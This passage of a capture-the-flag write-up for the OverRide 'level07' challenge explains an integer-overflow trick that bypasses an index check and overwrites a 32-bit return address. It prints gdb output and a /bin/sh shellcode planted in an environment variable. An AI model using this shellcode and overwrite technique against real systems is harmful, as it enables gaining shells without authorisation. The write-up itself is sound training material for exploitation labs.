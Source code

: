Since addresses are handled as unsigned int, int means that to reach the address 0xFFFFFFFF, we just need to type UINT_MAX / 4. This will try to access tab[UINT_MAX / 4], and when the syscall will try to access it it will do (UINT_MAX / 4) * 4 which is the higher tab slot that we can access. Even if the index is not near INT_MAX or UINT_MAX the fact that it stores int makes this limit way smaller. So we can try something like UINT_MAX / 4 + 114 = 1073741938. This will be multipled by the syscall by 4, so will reach the UINT_MAX limit, and access to the right index being at 456 addresses away from 0 which is 114 in sizeof int. And this is what we get in gdb:

```sh
Input command: store
 Number: 11111
 Index: 1073741938
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0x00002b67 in ?? ()
(gdb) 
```

The program segfault at address 0x00002b67, which is exactly in hexadecimal 11111, so it seems like 114 was indeed the return value.

### Solution

Now that we are able to avoid this will restriction, we still can't use the Ret2LibC, however we can use the shellcode in the env variable to finish this exercise so let's do it as we always do using the env_address.c file in Resources folder to find the address of the shellcode location, remember to use -m32 flag with gcc, the ELF file we are working on is in 32bit so using 32bit address system and we get:

```sh
level07@OverRide:~$ export SHELLCODE=$(python -c "print('\x90' * 50 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
level07@OverRide:/tmp$ gcc -m32 env_address.c -o env
Searching address of SHELLCODE env variable:
Big-endian format: 0xffffd8d3
Lil-endian format: \xd3\xd8\xff\xff
```

For once we are gonna use the big endian format and convert it into decimal which is 0xffffd8d3 => 4294957267. By storing this number into 114th index, we should be able to execute our shellcode, let's try that:

```sh
level07@OverRide:~$ ./level07 
[...]
Input command: store
 Number: 4294957267
 Index: 1073741938
 Completed store command successfully
Input command: quit
Segmentation fault (core dumped)
```
